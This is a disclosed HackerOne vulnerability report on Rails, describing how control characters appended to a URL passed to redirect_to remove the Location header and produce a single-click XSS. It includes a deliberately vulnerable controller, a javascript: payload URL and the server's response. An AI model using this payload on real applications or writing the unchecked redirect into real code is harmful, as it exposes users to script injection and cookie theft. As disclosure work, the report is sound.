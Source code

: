 # Incorrect handling of certain characters passed to the redirection functionality in Rails can lead to a single-click XSS vulnerability.

## Report Details
- **Report ID**: 1955370
- **URL**: https://hackerone.com/reports/1955370
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2023-04-20T01:32:01.552Z
- **Disclosed**: 2023-07-28T00:27:41.090Z

## Reporter
- **Username**: meowday
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: rails

## Vulnerability Information
### Overview
Incorrect handling of certain characters passed to the redirection functionality in Rails can lead to a single-click XSS vulnerability across web applications. This has been tested on the latest version of Rails as of today (7.0.4.3).

### Description
Downstream parsing of values sent to the redirect_to function will cause the 'location' header to be removed from the response when certain characters are used in the URL. For example, if the `\b` (%08) (backspace) character is used in the URL.

When the location header is missing from the response, it is possible to control the `href` attribute in the HTML response that would normally be briefly shown prior to the redirect, therefore by using a javascript URI, it is possible to prevent the redirect and serve an XSS payload.

During the assessment, the `%01-%08, %0b, %0c, %0e-%1f` characters were found to be vulnerable, however there may be others.

We believe this may be attributed to the rack linters attempting to conform to rfc7230 (https://github.com/rack/rack/blob/f5666bc8cb13b8d731ea0222fbd3ada670f2cd55/lib/rack/lint.rb#L671)

### Proof of Concept
A simple instance is as follows:

`app/controllers/application_controller.rb`
```ruby
class ApplicationController < ActionController::Base
  def vuln
    redirect_to params[:redirect_url], allow_other_host: true
  end
end
```

`config/routes.rb`
```ruby
Rails.application.routes.draw do
  get "/vuln" => "application#vuln"
end
```

And then when we retrieve: `http://localhost:3000/vuln?redirect_url=javascript:alert()%08`

The response will be as follows:
```
HTTP/1.1 302 Found
Cache-Control: no-store
Date: Thu, 06 Apr 2023 05:16:21 GMT
Connection: close
Content-Length: 100

<html><body>You are being <a href="javascript:alert(document.cookie) ">redirected</a>.</body></html>
```

As the page does not redirect, if the user clicks on the link (expecting the redirect for example), the payload will be triggered:
{F2303758}

## Impact

User controlled values being sent to the `redirect_to` function may cause an unwanted XSS vulnerability. This was discovered in the wild and proven to be a legitimate security concern.

## Attachments
- image.png
